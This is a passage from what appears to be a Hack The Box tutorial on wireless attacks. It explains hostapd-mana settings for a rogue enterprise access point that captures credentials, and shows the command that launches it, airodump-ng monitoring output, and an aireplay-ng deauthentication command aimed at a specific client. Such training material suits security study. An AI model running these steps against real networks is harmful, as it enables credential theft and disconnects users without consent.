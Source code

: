 <li>
<code>enable_mana=1</code>: Enables Karma (mana) mode to respond to all probe requests.</li>
<li>
<code>mana_loud=1</code>: Makes the rogue AP more noticeable by aggressively responding to probe requests, increasing the chances of clients connecting.</li>
<li>
<code>mana_credout=credentials.creds</code>: Specifies the file where captured credentials will be saved.</li>
<li>
<code>mana_eapsuccess=1</code>: Forces a successful EAP authentication, even if the client doesn’t complete the full process.</li>
<li>
<code>mana_wpe=1</code>: Enables WPA Enterprise functionality, making the rogue AP act as an enterprise AP for relaying captured credentials.</li>
</ul>
<p>To start the rogue AP using hostapd-mana we use following command:</p>
<pre><code class="language-shell-session">[!bash!]$ hostapd-mana hostapd.conf

Configuration file: hostapd.conf
MANA: Captured credentials will be written to file 'credentials.creds'.
rfkill: Cannot open RFKILL control device
Using interface wlan1 with hwaddr 00:11:22:33:44:00 and ssid "HTB-Wireless"
random: Only 18/20 bytes of strong random data available from /dev/random
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED-&gt;ENABLED
wlan1: AP-ENABLED 
</code></pre>
<hr/>
<h3>4. Deauthenticate Connected Clients</h3>
<p>If everything is set up correctly, our access point should be operational and ready to capture credentials from client devices. To observe our access point in action and monitor the connectivity of client devices, we can start an <code>airodump-ng</code> session in a second terminal.</p>
<pre><code class="language-shell-session">[!bash!]$ airodump-ng wlan0mon -c 1


 CH  1 ][ Elapsed: 6 s ][ 2024-08-23 09:47

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 00:11:22:33:44:00  -28 100       97        0    0   1   54   WPA2 CCMP   MGT  HTB-Wireless
 9C:9A:03:39:BD:7A  -28 100       97        5    0   1   54   WPA2 CCMP   MGT  HTB-Wireless

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 9C:9A:03:39:BD:7A  16:C5:68:79:A8:12  -29   12 -54      0        4
</code></pre>
<p>From the airodump-ng output, we can see that our fake access point, named <code>HTB-Wireless</code>, has been successfully created. Now, we need to wait for clients to connect to our network.</p>
<p>If, after some time, connected clients do not automatically switch to our network due to the KARMA attack (and they remain associated with the original access point in our airodump-ng session), we may need to perform a <code>deauthentication attack</code>. This will disconnect clients from the target access point, encouraging them to connect to our fake AP. We can execute this attack using the following command, specifying the target access point's BSSID and the client’s MAC address.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo aireplay-ng -0 6 -a 9C:9A:03:39:BD:7A -c 16:C5:68:79:A8:12 wlan0mon
